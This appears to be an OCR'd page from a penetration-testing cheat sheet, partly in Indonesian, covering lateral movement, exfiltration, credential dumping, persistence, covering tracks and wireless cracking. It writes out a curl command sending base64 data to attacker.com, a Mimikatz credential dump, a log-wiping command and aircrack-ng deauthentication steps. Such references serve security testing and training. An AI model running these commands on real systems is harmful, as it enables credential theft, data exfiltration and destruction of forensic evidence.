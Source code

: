 ### Lateral Movement
- **Pivoting:** Metasploit autoroute atau proxychains.
- **Pass-the-Hash:** Mimikatz untuk NTLM hashes.
- **Kerberoasting:** GetUserSPNs.py untuk service tickets.

### Data Exfiltration
- **Stealthy Methods:** DNS tunneling (dnscat), HTTP POST.
  **Command:** 
  ```
  echo "data" | base64 | curl -d @- http://attacker.com/exfil
  ```

### Credential Dumping
- **Linux:** `/etc/shadow`, `.bash_history`.
- **Windows:** LSASS dump dengan Mimikatz: 
  ```
  sekurlsa::logonpasswords
  ```

---

## 6. Maintaining Access

Instal backdoor hanya untuk PoC; hapus setelah testing.
- **Web Shells:** Weevely, ASPX shells.
- **Persistence:** 
  - Linux: Cron, systemd services.
  - Windows: Scheduled tasks, registry keys.
- **C2 Frameworks:** Covenant atau Empire untuk advanced persistence.

---

## 7. Covering Tracks

- **Log Manipulation:** Truncate logs, forge timestamps.
  **Command:** 
  ```
  echo '' > /var/log/secure; utmpdump /var/run/utmp
  ```
- **Anti-Forensics:** Use rootkits (jika simulasi), delete temp files.
- **Evasion:** Change MAC/IP, use ephemeral VMs.

---

## 8. Specialized Testing

### Wireless Pentesting
- **Tools:** Aircrack-ng suite, Kismet.
- **Steps:** 
  ```
  airmon-ng start wlan0
  aireplay-ng -0 1 -a BSSID -c CLIENT mon0
  aircrack-ng -w wordlist capture.cap
  ```
- **Vulns:** WEP cracking, Evil Twin attacks.
